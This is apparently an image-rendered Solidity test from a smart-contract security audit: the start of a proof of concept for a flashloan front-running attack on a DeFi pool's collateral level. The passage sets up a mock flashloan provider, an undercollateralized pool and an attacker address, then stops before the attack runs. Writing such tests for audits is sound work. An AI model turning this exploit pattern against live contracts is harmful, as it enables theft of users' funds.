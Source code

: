 ```solidity
address public attacker = address(0x7);
address public randomUser = address(0x8);

// function to calculate the collateral level of a pool
function calculateCollateralLevel(
    Pool targetPool,
    Token reserveToken,
    uint256 ethPrice,
    uint8 oracleDecimals,
    uint256 bondTargetPrice
) public view returns (uint256) {
    uint256 reserveBalance = reserveToken.balanceOf(address(targetPool));
    uint256 bondSupply = targetPool.bondToken().totalSupply();

    uint256 tvl = (ethPrice * reserveBalance).toBaseUnit(oracleDecimals);

    // Use the collateral level calculation from Pool.sol
    return (tvl * 1000000) / (bondSupply * bondTargetPrice);
}

function testFlashloanFrontrunAttack() public {
    // ---------------------------------------
    // 1. Deploy and fund the flashloan provider
    // ---------------------------------------
    MockFlashloanProvider flashloanProvider = new MockFlashloanProvider();
    Token reserveToken = Token(params.reserveToken);

    // Mint 10k to the governance so they can create a pool
    reserveToken.mint(address(randomUser), 10_000 ether);
    reserveToken.mint(governance, 10_000 ether);
    vm.startPrank(governance);
    reserveToken.approve(address(poolFactory), type(uint256).max);

    // Create an undercollateralized pool: 70 wstETH vs 1800 BOND/200 LEV
   manipulatedPool = Pool(
            poolFactory.createPool(
                params,
                70 ether,
                1800 ether,
                200 ether,
                "",
                "",
                "",
                "",
                false
            )
        );
    vm.stopPrank();

    // Fund the flashloan provider with enough for the loan
    reserveToken.mint(address(flashloanProvider), 30_000 ether);

    uint256 clBeforeFirstFlashloan = calculateCollateralLevel(
        manipulatedPool,
        reserveToken,
        3000 * CHAINLINK_DECIMAL_PRECISION, // We set the price to 3000 USD per wstETH for this test
        CHAINLINK_DECIMAL,                  // We set the oracle decimals to 8 for this test
        100                                 // We set the target price to 100 USD per BOND
    );
    console.log("Collateral level before first flashloan:", clBeforeFirstFlashloan);

    uint256 attackerLoan = 10 ether;
```